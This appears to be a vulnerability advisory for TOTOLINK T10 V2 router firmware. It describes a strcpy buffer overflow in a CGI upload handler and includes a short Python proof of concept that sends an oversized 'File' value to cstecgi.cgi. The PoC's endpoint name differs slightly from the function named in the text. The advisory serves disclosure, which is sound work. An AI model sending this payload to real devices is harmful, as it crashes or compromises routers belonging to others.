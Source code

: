 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://totolink.com.my/products/t10/

## Affected version

T10 V2_Firmware V2_V4.1.8cu.5207

## Vulnerability details

In the T10 V2_Firmware V2_V4.1.8cu.5207 firmware a buffer overflow vulnerability in the `UploadCustomModule` function. The `v8` variable receives the `File` parameter from a POST request. However, since the user can control the input of `File`, the `strcpy(v15, v8);` can cause a buffer overflow vulnerability.

![image-20240902135434834](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902135434834.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {'topicurl' : "UploadFirmwareFile",
"File" : "a"*0x500000}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
